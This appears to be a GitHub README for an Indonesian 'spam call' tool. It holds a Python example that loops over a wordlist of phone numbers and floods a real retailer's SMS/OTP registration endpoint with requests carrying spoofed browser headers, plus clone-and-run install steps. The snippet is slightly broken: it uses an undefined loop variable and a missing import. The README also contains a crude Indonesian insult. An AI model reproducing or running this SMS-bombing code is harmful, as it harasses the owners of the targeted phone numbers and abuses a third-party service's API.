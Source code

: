 # Premium-Call Tools
<p align="center">
<img src="https://img.shields.io/static/v1?label=Author&color=green&message=Dusttale &logo=Acclaim&logoColor=white&style=for-the-badge"><br>
Tools Spam Call Unlimiter (+62)
https://t.me/SariiRooti
</p>
<p align="center">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=Minimal+Kasi+Star+lah+kontol+!" alt="UwU">
</p>

## How To Create Non Stop With Python
<details open>
  <summary><strong> Non Stop/Reapeat </strong></summary>

  ```bash
  Example:
  import time

  repeat=input("Your Input: ")
  while True:
        print (repeat)
        time.sleep(0.5)
  ```
  </details>

## How To Create Massive?
<details open>
  <summary><strong> Multi Target </strong></summary>

  ```bash
  Example:
  import os,sys,time #default module python
  import requests

  def massive():
  	try:
  		wordlist=open('wordlist.txt','r').readlines()
  		for line in gas:
  			strip=line.strip()
  			post=requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":strip})).text
  			print (post)
  			time.sleep(10) # You are free to set the time to a few seconds
  	except KeyboardInterrupt:
  		sys.exit("Stop Tools.")
  
  massive()
  ```
  </details>

# Info
<p align="center">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=Recode/Decode?+Ampas+(trash)+🚮" alt="UwU"
</p>

<details open>
  <summary><strong> Install Package + Run Script (AmmarrBN)</strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install python
  pkg install git
  pkg install python2
  git clone https://github.com/AmmarrBN/Premium-Call
  cd Premium-Call
  pip install -r requirements.txt
  python call.py
  ```
  </details>
